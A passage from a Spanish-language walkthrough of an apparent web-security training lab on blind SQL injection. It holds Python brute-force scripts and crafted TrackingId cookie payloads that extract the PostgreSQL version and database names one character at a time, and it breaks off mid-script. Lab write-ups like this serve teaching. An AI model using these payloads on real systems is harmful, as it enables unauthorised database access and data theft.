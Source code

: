 ```
                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

Ejecutamos el script obteniendo el output al completo del comando `version()`

```
# python3 sqli_conditional_response.py
[...\....] Fuerza bruta: LNchxAn9oOJqOKHw' and (select substr(version(),134,1)='i')-- - 
[p] output: PostgreSQL+12.20+(Ubuntu+12.20-0ubuntu0.20.04.1)+on+x86_64-pc-linux-gnu,+compiled+by+gcc+(Ubuntu+9.4.0-1ubuntu1~20.04.2)+9.4.0,+64-bits
```

Obtenemos la `longitud` de todas las `bases` de `datos`, la cual es de `44 caracteres`

```
Cookie: TrackingId=LNchxAn9oOJqOKHw'+and+length((select+string_agg(datname,', ')+from+pg_database))=44--+-+; session=U5B4rAdfDeA17C0bpxxIIgkGM6pmjjeX
```

Adaptamos el script anterior para `bruteforcear` el nombre de las `bases` de `datos`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a7d000e043dee26b4ab626a004200c4.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 45):
            for character in characters:
                cookies = {
                    'TrackingId': "LNchxAn9oOJqOKHw' and (select substr(string_agg(datname,', '),%d,1) from+pg_database)='%s'-- - " % (
                    position, character),
```